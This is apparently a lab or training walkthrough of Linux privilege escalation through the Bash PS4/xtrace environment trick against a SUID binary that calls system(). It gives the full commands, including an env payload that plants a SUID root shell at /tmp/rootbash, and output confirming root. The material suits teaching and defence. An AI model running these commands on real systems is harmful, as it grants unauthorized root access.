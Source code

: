 Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace.

By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited.

If an SUID file is being executed, this command will execute with the privileges of the file owner.

In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

1. Find SUID/SGID files on the target:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2

The suid- - env2 file should execute with root user permissions.

2. Run strings on the SUID file:

```bash
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

[pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 start"]

4. Optionally, we can also verify with ltrace:

```bash
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```

6. Run the /tmp/rootbash file with the -p command line option to get a root shell:

```bash
/tmp/rootbash -p
```

```bash
id
```

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)